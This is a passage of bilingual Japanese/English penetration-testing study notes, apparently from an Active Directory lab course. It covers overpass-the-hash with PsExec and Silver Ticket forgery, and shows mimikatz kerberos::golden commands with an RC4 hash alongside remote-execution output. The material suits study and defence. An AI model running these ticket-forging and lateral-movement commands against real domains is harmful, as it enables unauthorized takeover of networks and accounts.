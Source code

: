 PS C:¥Windows¥system32> net use \\dc01
```

Now, NTLM hash was converted to Kerberos TGT. So we can use PsExec.exe!

> PsExec はリモートでコマンドを実行できますが、パスワードハッシュは受け付けません。 Kerberos チケットを生成し、Jeff_Admin のコンテキストの PowerShell セッションで操作 しているので、TGT を再利用してドメインコントローラ上でコード実行ができます。

```
PS C:¥Tools¥active_directory> .¥PsExec.exe ¥¥dc01 cmd.exe
PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
C:¥Windows¥system32>
```

## Pass The Ticket
### Silver Ticket Crafting

> 特定のアカウントとしてService Ticketを偽造し、当該アカウントになりすまして特定サービスを利用する。

> 既に、サービスアカウントのパスワードハッシュをクラックし、サービスチケットからパス ワードを取得できることを示しました。このパスワードは、サービスアカウントで利用可能 なリソースにアクセスするために使用することができます。
しかし、そのサービスアカウントがいずれかのサーバのローカル管理者でない場合、pass the hash や overpass the hash のようなベクターを使ってラテラルムーブメントを行うことがで きないため、別の方法を使う必要があります。

> 
例えば、サービスアカウント iis_service のコンテキストで実行されている IIS サーバに対 して認証を行うと、サービスチケットに存在するグループメンバーシップに応じて、IIS サ ーバでどの権限を持つかを IIS アプリケーションが決定します。
しかし、サービスアカウントのパスワードまたはそれに関連する NTLM ハッシュがあれば、 独自のサービスチケットを作成し、ターゲットリソース(この例では IIS アプリケーション) に任意の権限でアクセスすることができます。このカスタムで作成したチケットは「シルバーチケット」と呼ばれる


（シルバーチケットの生成には、平文のパスワードではなくパスワードハッシュを使用します。）


```
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

It may be possible to execute command with Silver Ticket:

```
#0> client: ...
    server: cifs/WIN2008R2.pentest.local@PENTEST.LOCAL
```

の場合

```
C:\> PsExec.exe \\win2008r2 whoami
```

(how to find SID)

```
C:¥>whoami /user
USER INFORMATION
----------------
User Name SID
=========== ============================================== 
corp¥offsec S-1-5-21-1602875587-2787523311-2599479668-1103
```

```